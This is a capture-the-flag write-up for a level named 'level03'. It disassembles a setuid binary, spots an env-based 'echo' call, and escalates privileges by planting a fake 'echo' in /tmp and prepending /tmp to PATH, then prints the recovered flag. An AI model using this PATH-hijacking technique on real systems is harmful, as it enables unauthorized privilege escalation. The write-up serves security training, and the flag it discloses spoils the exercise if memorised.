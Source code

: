 # level03

- We log as `level03`

- A `level03` file is located inside the home directory of level03

- This is an executable file with special rights:
>`-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03`

- Trying to execute it being logged as `level03` will execute it as `flag03`

- Uppon execution it displays `Exploit me`

- We dissasemble the binary using gdb, here is the `main` function:
```asm
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     and    $0xfffffff0,%esp
   0x080484aa <+6>:     sub    $0x20,%esp
   0x080484ad <+9>:     call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:    mov    %eax,0x18(%esp)
   0x080484b6 <+18>:    call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:    mov    %eax,0x1c(%esp)
   0x080484bf <+27>:    mov    0x18(%esp),%eax
   0x080484c3 <+31>:    mov    %eax,0x8(%esp)
   0x080484c7 <+35>:    mov    0x18(%esp),%eax
   0x080484cb <+39>:    mov    %eax,0x4(%esp)
   0x080484cf <+43>:    mov    0x18(%esp),%eax
   0x080484d3 <+47>:    mov    %eax,(%esp)
   0x080484d6 <+50>:    call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:    mov    0x1c(%esp),%eax
   0x080484df <+59>:    mov    %eax,0x8(%esp)
   0x080484e3 <+63>:    mov    0x1c(%esp),%eax
   0x080484e7 <+67>:    mov    %eax,0x4(%esp)
   0x080484eb <+71>:    mov    0x1c(%esp),%eax
   0x080484ef <+75>:    mov    %eax,(%esp)
   0x080484f2 <+78>:    call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave  
   0x08048504 <+96>:    ret
```

- We can see multiple function calls but the interesting one is `system` :
>`0x080484fe <+90>:    call   0x80483b0 <system@plt>`

- The line above moves the argument of `system` on top of the stack:
>`0x080484f7 <+83>:    movl   $0x80485e0,(%esp)`

- Let's display the content of `0x80485e0` with `(gdb) x/s 0x80485e0` :
>`0x80485e0:       "/usr/bin/env echo Exploit me"`

- We can see that the `echo` command is vulnerable to `PATH` environment variable manipulation because it is called using `/usr/bin/env` which forces the binary to be found inside `PATH` variable

- We create a shell script named `echo` inside `/tmp` which contains:
>`getflag`

- We add `/tmp` at the front of `PATH` with:
>`export PATH=/tmp:$PATH`

- We run `./level03` inside the home directory of `level03`

- We get the flag `qi0maab88jeaj46qoumi7maus`
